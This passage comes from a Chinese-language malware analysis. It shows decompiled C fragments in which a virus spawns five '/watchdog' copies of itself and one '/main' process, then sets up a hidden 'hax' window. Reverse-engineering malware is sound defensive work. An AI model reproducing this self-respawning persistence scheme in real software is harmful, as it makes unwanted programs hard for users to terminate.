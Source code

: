 很明显这是两次弹窗的内容

Message BoxA 是 Windows API 中的一个函数，用来弹出一个对话框。如果用户点击“是”，返回值 6

代码继续执行的内容如下

```c
{
    v10 = (WCHAR *)LocalAlloc(0x40u, 0x4000u);
    GetModuleFileNameW(0, v10, 0x2000u);
    v11 = 5;
    do
    {
      ShellExecuteW(0, 0, v10, L"/watchdog", 0, 10);
      --v11;
    }
    while ( v11 );
    pExecInfo.cbSize = 60;
    pExecInfo.lpFile = v10;
    pExecInfo.lpParameters = L"/main";
    pExecInfo.fMask = 64;
    pExecInfo.hwnd = 0;
    pExecInfo.lpVerb = 0;
    pExecInfo.lpDirectory = 0;
    pExecInfo.hInstApp = 0;
    pExecInfo.nShow = 10;
    ShellExecuteExW(&pExecInfo);
    SetPriorityClass(pExecInfo.hProcess, 0x80u);
  }
```

创建了 5 个命令行参数为 `/watchdog` 的进程，和 1 个命令行参数为 `/main` 的进程。在病毒文件执行的时候可以看到这 6 个进程。

到此无参数部分分析完毕。

#### watchdog 部分分析

函数名是看门狗？

```c
if ( !lstrcmpW(v1[1], L"/watchdog") )
    {
      CreateThread(0, 0, sub_40114A, 0, 0, 0);
      pExecInfo.lpVerb = (LPCWSTR)48;
      pExecInfo.lpParameters = (LPCWSTR)sub_401000;
      pExecInfo.hIcon = (HANDLE)"hax";
      pExecInfo.lpFile = 0;
      memset(&pExecInfo.lpDirectory, 0, 28);
      pExecInfo.hProcess = 0;
      RegisterClassExA((const WNDCLASSEXA *)&pExecInfo.lpVerb);
      CreateWindowExA(0, "hax", 0, 0, 0, 0, 100, 100, 0, 0, 0, 0);
      while ( GetMessageW(&Msg, 0, 0, 0) > 0 )
      {
        TranslateMessage(&Msg);
        DispatchMessageW(&Msg);
      }
    }
```
